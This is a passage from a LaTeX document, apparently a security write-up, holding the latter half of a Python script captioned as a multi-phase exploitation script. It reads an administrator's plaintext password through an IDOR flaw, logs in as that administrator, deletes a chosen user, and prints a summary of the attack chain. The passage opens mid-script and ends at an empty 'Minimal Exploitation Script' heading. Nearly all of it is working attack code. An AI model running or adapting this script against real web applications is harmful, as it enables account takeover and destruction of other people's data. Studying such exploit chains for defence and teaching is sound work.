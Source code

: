 \documentclass[11pt,letterpaper]{article}
\begin{document}
\begin{verbatim}[language=python,caption={Full multi-phase exploitation script}]
    if not admin_password:
        print("[-] Failed to extract admin password. Exiting.")
        sys.exit(1)

    # ============================================
    # PHASE 3: Login as administrator
    # ============================================
    print("\n" + "="*60)
    print("PHASE 3: Administrator Authentication")
    print("="*60)

    admin_session = requests.Session()
    admin_session.verify = False
    admin_session.headers.update({
        'User-Agent': 'IDORPasswordExploit/2.0'
    })

    if not login(admin_session, base_url, args.admin_user, admin_password):
        print("[-] Failed to login as admin. Password may be wrong.")
        sys.exit(1)

    # ============================================
    # PHASE 4: Execute privileged action
    # ============================================
    print("\n" + "="*60)
    print("PHASE 4: Privileged Action Execution")
    print("="*60)

    if not delete_user(admin_session, base_url, args.target):
        print("[-] Failed to delete target user.")
        sys.exit(1)

    # ============================================
    # Summary
    # ============================================
    print("\n" + "="*60)
    print("EXPLOITATION SUMMARY")
    print("="*60)

    print(f"""
[+] Attack Chain Completed Successfully!

    Step 1: Logged in as '{DEFAULT_USERNAME}'
    Step 2: Exploited IDOR on /my-account?id={args.admin_user}
    Step 3: Extracted password: {admin_password}
    Step 4: Authenticated as '{args.admin_user}'
    Step 5: Deleted user '{args.target}'

[+] Vulnerabilities Exploited:
    - CWE-639: IDOR (Broken Object-Level Authorization)
    - CWE-256: Plaintext Password Storage/Disclosure

[+] This demonstrates a CRITICAL chained vulnerability leading to
    complete administrative account takeover.
    """)

    sys.exit(0)

if __name__ == "__main__":
    main()
\end{verbatim}

\subsection{Minimal Exploitation Script}
\end{document}
